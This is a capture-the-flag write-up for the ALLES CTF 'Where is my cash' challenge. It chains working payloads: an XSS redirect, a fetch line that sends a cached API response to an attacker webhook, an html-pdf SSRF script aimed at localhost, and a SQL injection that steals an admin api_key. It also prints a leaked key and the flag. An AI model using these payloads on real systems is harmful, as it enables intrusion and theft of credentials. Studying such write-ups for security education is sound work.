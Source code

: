 # Where is my cash - 2 Solves

## Description

We got first blood on this challenge. I'll just write about solution steps.

## Part 1 - XSS

There was XSS in `api_key` parameter in homepage, Our input would directly goes to javascript variable.

`const API_TOKEN = "INPUT";`

So we could redirect admin to our controlled website with following payload.

`?api_key="-(document.location='ourwebsite')-"`

## Part 2 - Misconfigured CORS

There was option in website that would let us to provide link from challenge's website and admin would visit it.

the `Access-Control-Allow-Origin` was set to `*` for `/1.0/user` endpoint and the `api_key` had to be set in `x-api-token` header.

Also there was no `cache-control` or `max-age` header. So the response would be cached and we could request the cached response from any origin. we can request from cache with fetch, Just need to set `cache` option to `force-cache`. 

To achieve this, We used the following code.

`fetch("https://api.wimc.ctf.allesctf.net/1.0/user",{"cache":"force-cache"}).then((r)=>r.text()).then((r)=>fetch("webhook?a="+btoa(r)));`  

which led to

`{"code":200,"data":{"wallets":[],"user_id":"13371337-1337-1337-1337-133713371335","api_key":"980a0deeeaa5261687fb6ad2e37561","username":"local_it_staff"},"status":"success"}`

So `local_it_staff`'s `api_key` is `980a0deeeaa5261687fb6ad2e37561`


## Part 3 - ssrf in html-pdf

Also there was html to pdf functionality in website which was using [html-pdf](https://www.npmjs.com/package/html-pdf) module. 

We could give any html to the `/1.0/admin/createReport` endpoint with `html` parameter, and it would give us the pdf of our html.

we could request to api with `XMLHttpRequest`. The api was running on port `1337` so we could request to api with following html 

```
<html>
<head>
</head>
<body>
<script>
    function reqListener (){
        document.write(this.responseText);
    } 
    var oReq = new XMLHttpRequest();
    oReq.addEventListener("load", reqListener); 
    oReq.open("GET", "http://127.0.0.1:1337/");
    oReq.send("");
</script>
</body>
</html>
```
Which result to `Cannot GET /` in created pdf.

## Part 4 - Steal admin api-key with SQLI
There was `/internal/createTestWallet` endpoint which would let us to create wallet, but the query was vulnerable to SQL Injection. The query was: 

`INSERT INTO wallets VALUES ('${wallet_id}', NULL, ${balance}, 'TESTING WALLET 1234');` 

And we could control the `balance` variable. 
<br>We knew that the flag holder was `bob_h4x0r` with user_id `13371337-1337-1337-1337-133713371337`.<br>So we created another wallet with our `user_id` as owner and `bob_h4x0r`'s apikey as `wallet_note`.

We could achieve this by providing following payload as `balance`.

 `0,""),(2122424354,"OUR USERID",1333,(select api_key from general where username="bob_h4x0r" )); -- -`

After executing the query, we could see new wallet with admin's apikey as note. After logging in with admin's apikey, we got the FLAG.

>FLAG :ALLES{th4nks f0r y0uR h31p, my fr13nd!}

Thanks to my amazing teammates and event's authors.